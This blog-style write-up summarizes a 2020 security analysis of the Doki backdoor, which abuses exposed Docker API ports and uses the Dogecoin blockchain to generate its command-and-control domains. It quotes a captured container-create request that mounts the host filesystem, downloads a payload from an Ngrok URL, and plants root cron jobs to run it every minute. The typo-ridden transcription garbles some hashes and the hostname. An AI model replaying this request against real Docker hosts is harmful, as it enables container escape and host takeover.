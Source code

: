 
# Doki Malware Attack 

Recently in July 2020 , Intezer Security Researchers have detected a new malware payload that is diffenet from standard crypto-miners whcih is a fully undetected backdoor named as doki. it used an 
undocumented method to contact its operator by abusing the dogecoin cryptocurrency blockchain in a unique way in order to dynamically generate its C2 domain address . th malware managed to stay under the radar for over 6 months despite samples being publicaly availabe in VirusTotal 


In this attack , The Threat is targeting misconfigured containerized environments in the cloud. the attackers scan for publicly accessible Docker API ports and exploit them in order to setup their own 
containers and execute malware on the victim's infrastructure . the attackers are spaning and deleting a number of container duringa attack 


- Attack Initialtion :- The attack is based on non-malicious `alpine-curl ` image publicly available on Docker Hub . This image is being abused further to carry out malicious activity 

![](/img/Intizer_Ari_Info_v3.pngw3.webp)


The technique is based on the creation of a new container , accomplished by posting a `create ` API request the body of the request contains configuration parameter for the container 

one of the parameter is   `bind` which lets user configure which file or directort on the host machine into a contaienr. 


Ngrok is a service which provides secure tunnels to connect between local servers and the public internet. The attacker abuses Ngrok to craft unique URLs with a short lifetime and uses them to download payloads during the attack by passing them to the curl based image. The downloaded payload is saved in /tmpXXXXXX directory in the container.


```

Calling POST /v1.16/containers/create (\"Cmd\": [ \"-c\", \"curl --retry 3 -m 60 -o /tmpe904c3/tmp/tmpfileb64ea3ba45a6a0abd0fe9d22511b77c6d \\\"http://04a4baaee996.narok.io/f/serve?1=d\\u0026r=b64ea3ba48a6a0abdOfe9d22511b77c6\\\"; echo \\\n* * * * root sh /tmp/tmpfileb64ea3ba48a6a0abdOfe9d22511b77c6d\\\" \\u003e/tmpe904c3/etc/crontab; echo \\\nA A A A root sh /tmp/tmpfileb64ea3ba48a6a0abd0fe9d22511b77c6d\\\" \\u003e/tmpe904c3/etc/cron.d/lm; chroot /tmpe904c3 sh -c \\\"cron 11 crond\\\"\" 
,\"Entrypoint\":\n/bin/sh\",\"HostConfig\":{\"Binds\":[\"/:/tmpe904c3\"]1, \"Image\":\"sha256:5301ebcf503e9c6d3a3SceOde6dObc3d796560c2e05ble09SeSa6ab2afc2bdf0\" 


```

By using the bind configuration the attacker can control the cron utility of the host.
The attacker modifies the host’s cron to execute the downloaded payload every minute. We observed two types of payloads, one is a network scanner script and the other is a downloader script.

The network scanner uses zmap, zgrap, and jq to scan ports associated with Redis, Docker, SSH, and HTTP.

Using a list of hardcoded ranges of IP addresses, which belong mostly to cloud servers such as AWS and local cloud providers in foreign regions (we have seen providers from China, Austria, and the United Kingdom), the script gathers the information and uploads it to another Ngrok URL.

The downloader script is responsible for downloading and installing various malware binaries, often one of several well known cryptominers. We have noticed it can also install a fully undetected malware component. We named this malware Doki and will provide a technical analysis in the next section.

The attacker has full control over the configuration of the container he creates and the files that are dropped into the container. By using legitimate API commands, the attacker is able to escape from the container he created and execute any code from within the server itself.